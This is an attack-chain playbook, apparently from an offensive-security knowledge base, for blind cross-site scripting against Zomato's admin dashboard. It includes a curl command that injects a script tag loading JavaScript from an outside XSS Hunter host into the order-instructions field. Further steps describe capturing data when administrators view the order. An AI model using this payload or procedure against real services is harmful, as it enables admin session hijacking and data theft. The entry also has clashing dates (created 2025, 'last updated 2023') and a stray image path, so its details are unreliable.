

---
tags:
  - xss
  - blind-xss
  - web-vulnerability
  - api-exploit
type: attack_chain
tools:
  - '[[tools/XSS-Hunter]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/inject-xss-payload-via-api]]'
platforms:
  - Web
  - Mobile App
complexity: medium
procedures:
  - '[[procedures/Inject-Blind-XSS-Payload-into-API-Parameter]]'
  - '[[procedures/Detect-Blind-XSS-Payload-Execution]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
description: >-
  Exploitation of a blind XSS vulnerability in Zomato's admin dashboard by
  injecting malicious JavaScript via the special instructions parameter in the
  mobile app API, leading to payload execution when viewed by admins.
skill_level: intermediate
impact_level: high
id: c37cd2d2-6903-455a-9c4a-d467fd859cb0
created_at: '2025-12-13T23:56:20.308Z'
updated_at: '2025-12-13T23:56:20.308Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Blind XSS Injection via Zomato Order Instructions to Compromise Admin Dashboard

Multi-stage attack chain demonstrating the exploitation of a blind XSS vulnerability in Zomato's system. The attack involves injecting a malicious JavaScript payload into the special instructions parameter of an order via the mobile app's API endpoint. This payload executes in the context of the admin dashboard when an administrator views the order details, potentially allowing for session hijacking, data exfiltration, or further internal attacks. The vulnerability stems from insufficient input sanitization in the back-end.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/XSS-Hunter]]

### Target Environment

- Platform: Web and Mobile App
- Required services/ports: API Endpoint for order placement, Admin Dashboard
- Network access requirements: Access to Zomato mobile app or API

### Initial Access Requirements

- Credential requirements: Valid Zomato user account
- Network position: External user access
- Prior access needed: None beyond user-level access

## Detailed Attack Procedures

### Step 1: Inject XSS Payload
procedure: [[procedures/Inject-Blind-XSS-Payload-into-API-Parameter]]

**Objective**: Insert a malicious JavaScript payload into the special instructions parameter of an order to exploit the blind XSS vulnerability.

**Instructions**: While placing an order via the Zomato app, inject the payload into the special instructions field using [[commands/inject-xss-payload-via-api]]:

```bash
curl -X POST 'https://api.zomato.com/order' -d 'special_instructions="><script src=https://{$handle}.xss.ht></script>"'
```

This sends the payload through the API endpoint, embedding it in the order details.

**Expected Output**: Successful order placement with the payload included in the instructions.

**Success Indicators**:
- Order confirmation received
- Payload persisted in order details

### Step 2: Detect Payload Execution
procedure: [[procedures/Detect-Blind-XSS-Payload-Execution]]

**Objective**: Monitor for the execution of the injected payload when an admin views the order details in the dashboard.

**Instructions**: Use the XSS Hunter service to detect when the payload fires. The service will notify you via email or dashboard when the script loads from https://{$handle}.xss.ht in the admin's browser context.

No specific command is executed here; monitoring is handled by the tool's configuration.

**Expected Output**: Notification from XSS Hunter indicating payload execution, including details like browser context and captured data.

**Success Indicators**:
- Payload execution alert received
- Confirmation of admin-level context

## Attack Chain Summary

### Key Achievements

1. Successful injection of blind XSS payload via user-controlled API parameter
2. Detection of payload execution in admin dashboard
3. Potential for admin account compromise or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
